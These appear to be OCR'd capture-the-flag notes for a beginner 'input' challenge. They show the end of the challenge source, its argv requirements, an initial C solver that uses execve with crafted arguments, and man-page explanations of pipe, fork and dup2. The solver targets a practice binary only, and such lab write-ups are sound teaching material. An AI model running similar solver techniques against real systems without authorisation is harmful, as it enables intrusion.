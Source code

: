         // here's your flag
        system("/bin/cat flag");
        return 0;
}

argv:
- Need to provide exactly 99 arguments (99 + program name), argument 65/A should be "\x00" and 66/B should be "\x20\x0a\x0d"

initial exploit looks like this:
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#define INPUT_SIZE 100

int main(int argc, char* argv[]) {
    const char *input_argv[INPUT_SIZE + 1];
    input_argv[0] = "/home/input2/input";
    for (int i = 1; i <= INPUT_SIZE; i++) {
        if (i == 'A') {
            input_argv[i] = "\x00";
        } else if (i == 'B') {
            input_argv[i] = "\x20\x0a\x0d";
        } else if (i == INPUT_SIZE) {
            input_argv[i] = NULL; 
        } else {
            input_argv[i] = "\xAA";
        }
    }
    execve(input_argv[0], (char* const*)input_argv, NULL);
    return 1;
}

pipes/stdout,stdin,stderr:
- **pipe**() creates a pipe, a unidirectional data channel that can be
       used for interprocess communication.  The array _pipefd_ is used to
       return two file descriptors referring to the ends of the pipe.
       _pipefd[0]_ refers to the read end of the pipe.  _pipefd[1]_ refers
       to the write end of the pipe.  Data written to the write end of
       the pipe is buffered by the kernel until it is read from the read
       end of the pipe.
- Using pipe() we can create a pipe for both ends that will connect the main exploit with input and with both write edges we could write specific information that will be read from the reading side of the pipe by input
- Using fork() we can create cases for 2 processes - main process (exploit) and child process (input). In the case of the child process we just need to close all pipe handles (not used directly) and call execve() to execute input, and in the case of the parent process we will close the reading handles for both pipes, use the write handles to write the needed data into the pipes and wait until the child process finishes executing input
- The **dup2**() system call performs the same task as **dup**(), but
       instead of using the lowest-numbered unused file descriptor, it
       uses the file descriptor number specified in _newfd_.  In other
       words, the file descriptor _newfd_ is adjusted so that it now
       refers to the same open file description as _oldfd_.
